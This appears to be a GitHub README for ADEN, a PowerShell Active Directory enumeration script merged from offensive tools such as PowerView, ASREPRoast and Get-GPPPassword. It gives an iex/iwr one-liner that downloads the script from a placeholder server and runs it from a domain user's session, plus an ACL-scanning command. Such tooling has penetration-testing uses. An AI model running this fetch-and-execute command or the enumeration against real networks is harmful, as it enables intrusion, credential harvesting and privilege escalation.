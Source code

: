 ## What is this?
ADEN is a local enumeration script for active directory environments, it is a carefully put together merge of several enumeration and exploitation projects:

- PowerView
- PowerMad
- ASREPRoast
- Get-GPPPassword
- PowerUpSQL

It is to be used as an all-in-one enumeration routine to spin off when you are in a domain user's session.\
Big credits to all the authors of the above mentioned tools! You are awesome.

## How to use?
From a domain's user powershell session:
```powershell
iex(iwr -usebasicparsing http://[SERVER]/aden.ps1);Invoke-ADEnum
```
The script will perform a number of checks that you can directly see on a clear output. The only thing it doesn't do is ACL enumeration, I recommend you do this once you know your user context, then you can issue manually a command like this:
```powershell
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "[YOUR_GROUP]"} | select ObjectDN, IdentityReference, ActiveDirectoryRights, AccessControlType
```
